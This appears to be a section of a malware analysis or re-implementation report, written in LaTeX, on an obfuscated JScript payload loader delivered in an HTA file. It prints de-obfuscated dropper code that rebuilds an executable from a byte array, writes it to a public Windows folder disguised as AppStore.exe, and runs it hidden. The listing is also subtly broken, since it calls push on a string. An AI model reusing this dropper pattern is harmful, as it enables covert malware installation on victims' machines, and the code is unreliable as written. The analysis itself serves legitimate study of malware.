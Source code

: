 \section{Payload Loader - JavaScript} \label{sec:impl-loader}
The payload loader, or payload dropper, is responsible for reconstructing the executable payload on the victim's device
and running it. It is written in JavaScript, or more precisely, Microsoft JScript, a substandard of JavaScript with
added capabilities meant to be run on Microsoft Windows systems, for example by the application we are using to execute
the \acrfull{HTA} hosting the payload loader.

The only contents of the \acrshort{HTA} are an empty body and an \acrshort{HTML} script tag containing the payload
loader, so we don't deem it necessary to discuss it and will focus solely on the JavaScript contents of the script
tag. 

It is evident that the attackers wanted this part of the malware code to be the hardest to analyse, as it is more
heavily obfuscated than any other part of the code we analysed. Only the second-stage payload which we didn't 
analyse or recreate was more obfuscated. These obfuscations are mostly symbolic in nature, relying on quirks of the
JavaScript programming language as well as string encoding, usage of hexadecimal numbers instead of decimal numbers,
as well as indirection in array accesses.

As a first step in our re-implementation process, we reconstructed the original source code by de-obfuscating the 
program. It is important to note that the code is de-obfuscated to run using Microsoft JScript and isn't necessarily 
the simplest or most elegant way to write the program, adhering to modern JavaScript best-practices.

\begin{lstlisting}[language=JavaScript, caption={Unobfuscated payload loader}]
window.resizeTo(0, 0)
try {
  var data = [104,101, ... ] // payload 
  var path = "C:\\Users\\Public\\Libraries\\AppStore.exe"
  var fso = new ActiveXObject("Scripting.FileSystemObject")

  var content = ''
  for (var i = 0; i < data.length; i++) {
    content.push(String.fromCharCode(data[i]))
  }

  var file = fso.CreateTextFile(path, true)
  file.Write("MZ")
  file.Close()

  file = fso.OpenTextFile(path, 8, false, -1)
  file.Write(content)
  file.Close()
  var shell = new ActiveXObject("WScript.Shell")
  shell.Run(path, 0)

} catch (error) {}
window.close()
\end{lstlisting}

